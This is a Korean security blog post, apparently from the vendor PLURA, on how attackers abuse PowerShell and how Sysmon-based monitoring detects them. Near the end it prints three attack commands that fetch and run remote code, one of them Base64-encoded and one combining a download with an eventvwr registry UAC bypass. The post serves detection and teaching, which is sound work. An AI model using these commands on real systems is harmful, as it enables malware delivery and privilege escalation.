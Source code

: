 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
title: "PowerShell을 이용한 공격"
---
```


![2020-05-12](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

시스템 관리 및 자동화 등을 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되어 공격자의 도구로 많이 사용되고 있습니다.

### 1. 실행 정책 (Execution Policy)
기본적으로 Microsoft는 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  
> **우회 Flags**  
> -ExecutionPolicy/-EP Bypass  
> -ExecutionPolicy/-EP Unrestricted  
> -noprofile or -nop  
> *Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정한 Profile도 무시할 수 있습니다.

### 2. 다운로드
PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행합니다.  
> 악의적인 PowerShell 스크립트 명령줄에서 자주 사용되는 명령입니다.  
> New-Object: .NET Framework의 인스턴스를 만듭니다.  
> System.Net.Webclient: 원격 리소스와의 데이터 송수신에 사용됩니다.  
> DownloadString: 원격지에서 IEX가 실행할 메모리 버퍼로 내용을 다운로드합니다.  
> DownloadFile: 원격지에서 로컬 파일로 컨텐츠를 다운로드합니다.  
> IEX/Invoke-Expression: 로컬 컴퓨터에서 명령을 실행합니다.  
> ICM/Invoke-Command: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

### 3. 인코딩
- 인코딩은 PowerShell Command를 사용자 및 특정 로그에서 숨길 수 있는 한 가지 방법입니다.  
- Base64 인코딩을 사용한 경우 CommandLine의 길이가 길어집니다.  
- 인코딩 또한 우회되더라도, 장문의 명령어를 통해 불러온 PowerShell이라면 의심해볼 필요가 있습니다. ( > 500 is odd)

### 4. DLL
- 악의적인 행동을 탐지하려면, 의심스러운 호출의 조합을 찾아야 합니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 이러한 DLL이 호출되고 있는지 모니터링합니다.  
*sysmon id 7 (ImageLoaded)을 통해 확인 가능합니다.  
System.Management.Automation.Dll  
System.Management.Automation.ni.Dll  
System.Reflection.Dll

### 5. PLURA에서 PowerShell 악성 행위 탐지
*Sysmon 설치 필수  
설치 방법: [PLURA Sysmon 설치 가이드](https://docs.plura.io/ko/agents/edr/windows/sysmon)  

![ps-0-1](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

**악성 파일 실행**  
PowerShell 우회 및 공격자 서버로부터 파일 다운로드 행위 발생  
![ps-2-1](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**필터 탐지 > 호스트보안**  
PLURA에서는 이런 악의적인 공격을 Sysmon을 활용하여 필터 탐지하고 있습니다.

> **공격 명령어**  
```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

악성 PowerShell 스크립트는 주로 email 첨부 파일의 다운로더로 사용되거나 침입 후 원격 컴퓨터에서 코드를 실행할 수 있습니다.  
PowerShell 위협에 대처하려면 보다 정교한 탐지 방법과 지속적인 모니터링 등의 노력이 필요합니다.

## 참조
- https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf
- https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en
- https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651

## 관련 기사, 보안뉴스
- https://bit.ly/2V99SLF
